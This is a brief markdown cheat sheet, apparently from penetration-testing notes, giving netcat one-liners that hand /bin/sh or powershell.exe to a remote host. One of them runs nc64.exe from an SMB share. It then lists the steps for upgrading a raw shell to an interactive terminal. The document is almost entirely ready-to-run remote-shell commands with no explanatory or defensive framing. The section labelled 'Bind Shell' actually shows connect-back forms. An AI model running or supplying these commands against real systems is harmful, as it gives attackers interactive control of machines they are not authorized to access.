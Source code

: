 # Shell

## Bind Shell
```bash
nc <target> <port> -c "/bin/sh"
nc <target> <port> -e /bin/sh
```
```bash
\\<target>\hermes\nc64.exe <target> <port> -e powershell.exe
```

## Pimp a shell
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
^Z
stty raw -echo
fg
export TERM=xterm
```